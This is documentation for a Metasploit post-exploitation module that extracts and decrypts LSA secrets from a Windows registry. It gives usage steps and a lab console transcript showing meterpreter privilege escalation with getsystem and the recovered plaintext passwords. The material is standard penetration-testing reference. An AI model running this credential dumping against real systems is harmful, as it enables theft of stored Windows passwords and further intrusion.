 ## Vulnerable Application

This module will attempt to enumerate the LSA Secrets keys within the registry. The registry value used is:
`HKEY_LOCAL_MACHINE\\Security\\Policy\\Secrets\\`.

## Verification Steps

1. Start msfconsole
1. Get a shell on a Windows computer, with `SYSTEM` privs.
1. Do: `use post/windows/gather/lsa_secrets`
1. Do: `set session #`
1. Do: `run`
1. You should get LSA Secrets.

## Options

### STORE

If the decrypted values should be stored in the database. This is a tradeoff since there is no way to tell if a decrypted
value is a legitamate password, thus you may fill your database with bad values. Default is `true`.

## Scenarios

### Windows 10

The `DefaultPassword` in this case is legitimate.

```
msf6 post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[-] Could not retrieve LSA key. Are you SYSTEM?
[*] Post module execution completed
msf6 post(windows/gather/lsa_secrets) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 5...
msf6 post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: CachedDefaultPassword
 Decrypted Value: f+;=

[+] Key: DefaultPassword
 Decrypted Value: Passw0rd!

[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,l^sx+S?Heo75jnC

[+] Key: NL$KM
 Decrypted Value: @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d

[*] Writing to loot...
[*] Data saved in: /home/h00die/.msf4/loot/20201011171021_default_192.168.2.92_registry.lsa.sec_067749.txt
[*] Post module execution completed
msf6 post(windows/gather/lsa_secrets) > creds
Credentials
===========

host  origin        service  public  private                          realm  private_type  JtR Format
----  ------        -------  ------  -------                          -----  ------------  ----------
      111.111.1.11                   f+;=                                    Password      
      111.111.1.11                   Passw0rd!                               Password      
      111.111.1.11                   ,l^sx+S?Heo75jnC                        Password      
      111.111.1.11                   @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d         Password  
```
